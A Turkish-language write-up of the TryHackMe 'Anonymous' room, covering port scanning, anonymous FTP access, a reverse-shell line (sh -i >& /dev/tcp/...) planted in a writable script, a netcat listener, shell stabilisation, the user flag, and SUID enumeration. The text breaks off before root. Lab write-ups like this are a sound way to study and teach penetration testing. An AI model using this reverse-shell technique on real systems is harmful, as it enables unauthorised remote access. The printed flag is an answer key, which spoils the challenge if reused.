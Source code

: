 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/anonymous">Anonymous</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

## Görev 1

nmap çalıştıralım.

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.20.162
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 01:24 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:24
Scanning 10.10.20.162 [4 ports]
Completed Ping Scan at 01:24, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:24
Completed Parallel DNS resolution of 1 host. at 01:24, 0.00s elapsed
Initiating SYN Stealth Scan at 01:24
Scanning 10.10.20.162 (10.10.20.162) [1000 ports]
Discovered open port 21/tcp on 10.10.20.162
Discovered open port 445/tcp on 10.10.20.162
Discovered open port 22/tcp on 10.10.20.162
Discovered open port 139/tcp on 10.10.20.162
Completed SYN Stealth Scan at 01:24, 1.91s elapsed (1000 total ports)
Initiating Service scan at 01:24
Scanning 4 services on 10.10.20.162 (10.10.20.162)
Completed Service scan at 01:24, 11.28s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.20.162.
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Nmap scan report for 10.10.20.162 (10.10.20.162)
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.096KB)
```


Makineyi numaralandırın. Kaç port açık?
> 4

21 numaralı bağlantı noktasında hangi hizmet çalışıyor?
> ftp

139 ve 445 numaralı bağlantı noktalarında hangi hizmet çalışıyor?
> smb

ftp servisine anonymous olarak girmeyi deniyorum.


```
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.20.162
Connected to 10.10.20.162.
220 NamelessOne's FTP Server!
Name (10.10.20.162:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8298|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45177|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1118 Nov 12 06:29 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||30118|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |****************************************************************|   314        2.62 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.35 KiB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||37011|)
150 Opening BINARY mode data connection for removed_files.log (1118 bytes).
100% |****************************************************************|  1118        6.42 MiB/s    00:00 ETA
226 Transfer complete.
1118 bytes received in 00:00 (11.97 KiB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||48492|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |****************************************************************|    68      205.59 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
ftp> exit
221 Goodbye.
```

İndirdiğim dosyaları inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a1.png?raw=true)

clean.sh dosyasının içerisine reverse shell kodu ekliyorum ve put komutuyla ftp servisine gönderiyorum.

```
sh -i >& /dev/tcp/10.14.61.127/1234 0>&1
```

netcat çalıştırmayı unutmayalım.

```
nc -nvlp 1234
```

Kısa bir süre bekledikten sonra makineye erişim sağlıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a2.png?raw=true)

Shellimizi stabil hale getirelim:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a3.png?raw=true)

user flag:
>90d6f992585815ff991e68748c414740

Yetkimizi yükseltelim ve root bayrağına ulaşalım.

```
find / -perm -04000 -type f 2>/dev/null komutu ile hangi programların root’a ait olduğuna bakıyorum.
```

```
namelessone@anonymous:~$ find / -perm -04000 -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Buradaki /usr/bin/env dikkatimi çekiyor ve gtfobins sitesine gidip yetki yükseltip yükseltemeyeceğime bakıyorum.




